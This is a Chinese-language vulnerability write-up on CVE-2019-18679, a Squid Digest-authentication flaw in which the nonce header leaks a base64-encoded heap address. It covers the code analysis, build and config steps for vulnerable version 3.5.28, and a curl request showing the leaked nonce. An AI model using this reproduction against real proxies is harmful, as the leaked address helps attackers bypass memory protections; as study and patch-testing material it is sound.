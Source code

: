 （CVE-2019-18679）Squid 敏感信息泄漏
====================================

一、漏洞简介
------------

Squid是一个开源的高性能的代理缓存服务器。它接受来自客户端的请求并适当地处理这些请求。例如，如果一个人想下载一web页面，他请求Squid为他取得这个页面。Squid随之连接到远程服务器并向这个页面发出请求。然后，Squid显式地聚集数据到客户端机器，而且同时复制一份。当下一次有人需要同一页面时，Squid可以简单地从磁盘中读到它，那样数据迅即就会传输到客户机上。当前的Squid可以处理HTTP，FTP，GOPHER，SSL和WAIS等协议。

几个月之前，Synacktiv
teams对Squid的源码进行审计，发现了几个漏洞，其中一个是在Digest
authentication过程中触发的敏感信息泄漏漏洞。

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

漏洞发生在fixHeader函数。nonce变量通过authenticateDigestNonceNew函数申请，authenticateDigestNonceNonceb64取出nonce变量的值，通过httpHeaderPutStrf发送给客户端。

![15904903701.jpg](./.resource/(CVE-2019-18679)Squid敏感信息泄漏/media/rId25.jpg)authenticateDigestNonceNonceb64函数单纯的取出了nonce-\>key的值，重点看下nonce变量和nonce-\>key的赋值过程。

![2.png](./.resource/(CVE-2019-18679)Squid敏感信息泄漏/media/rId26.png)

函数authenticateDigestNonceNew申请nonce变量![3.png](./.resource/(CVE-2019-18679)Squid敏感信息泄漏/media/rId27.png)

authDigestNonceEncode函数对nonce-\>noncedata的地址base64编码，赋值给nonce-\>key

![4.png](./.resource/(CVE-2019-18679)Squid敏感信息泄漏/media/rId28.png)

最后response
header中的nonce字段就是base64编码之后的nonce-\>noncedata的地址。

### 漏洞复现

下载Squid有漏洞的版本，这里我选择了squid/3.5.28。编译安装

    ./configure --enable-auth --enable-auth-digest
    make -j4
    make install

安装完成之后squid的主要目录结构如下：

    /usr/local/squid/
        ├── sbin
        │   └── squid             //squid程序
        ├── libexec               //辅助程序
        │   ├── basic_smb_auth
        │   └── digest_file_auth
        └── etc
        │   └── squid.conf       //配置文件
        └── logs                 //运行日志
            ├── access.log
            └── cache.log

修改配置文件，增加一些内容开启digest auth。

    auth_param digest program <path to program>
    auth_param digest children 8
    auth_param digest realm Access to Squid
    auth_param digest nonce_garbage_interval 10 minutes
    auth_param digest nonce_max_duration 45 minutes
    auth_param digest nonce_max_count 100
    auth_param digest nonce_strictness on

运行squid程序，通过squid代理，访问某个网站。返回header中nonce字段就是泄漏的内存地址。

    curl -I -x 192.168.6.22:3128 https://www.0-sec.org/

    HTTP/1.1 407 Proxy Authentication Required
    Server: squid/3.5.28
    Mime-Version: 1.0
    Date: Wed, 13 May 2020 13:28:15 GMT
    Content-Type: text/html;charset=utf-8
    Content-Length: 3526
    X-Squid-Error: ERR_CACHE_ACCESS_DENIED 0
    Vary: Accept-Language
    Content-Language: en
    Proxy-Authenticate: Digest realm="Access to Squid", nonce="7/W7XgAAAABwTjQEilUAAE+y+jgAAAAA", qop="auth", stale=false
    X-Cache: MISS from test
    Via: 1.1 test (squid/3.5.28)
    Connection: keep-alive

参考链接
--------

> https://xz.aliyun.com/t/7771

